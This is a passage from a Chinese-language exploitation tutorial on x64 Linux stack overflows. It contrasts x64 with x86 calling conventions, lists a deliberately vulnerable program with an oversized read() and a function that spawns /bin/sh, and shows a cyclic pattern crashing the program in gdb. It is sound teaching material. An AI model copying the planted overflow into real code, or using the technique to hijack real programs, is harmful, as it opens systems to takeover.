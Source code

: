 ------

linux_64与linux_86的区别主要有两点：首先是内存地址的范围由32位变成了64位。但是可以使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。其次是函数参数的传递方式发生了改变，x86中参数都是保存在栈上,但在x64中的前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9中，如果还有更多的参数的话才会保存在栈上。

我们还是拿实际程序做例子进行讲解,level3.c内容如下：

```
#!c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void callsystem()
{
    system("/bin/sh");
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```

我们打开ASLR并用如下方法编译：

```
#!bash
$ gcc -fno-stack-protector level3.c -o level3
```

通过分析源码，我们可以看到想要获取这个程序的shell非常简单，只需要控制PC指针跳转到callsystem()这个函数的地址上即可。因为程序本身在内存中的地址不是随机的，所以不用担心函数地址发生改变。接下来就是要找溢出点了。我们还是用老方法生成一串定位字符串：

```
#!bash
$python pattern.py create 150 > payload
$ cat payload 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

然后运行`gdb ./level3`后输入这串字符串造成程序崩溃。

```
#!bash
(gdb) run < payload
Starting program: /home/mzheng/CTF/level3 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005b3 in vulnerable_function ()
```

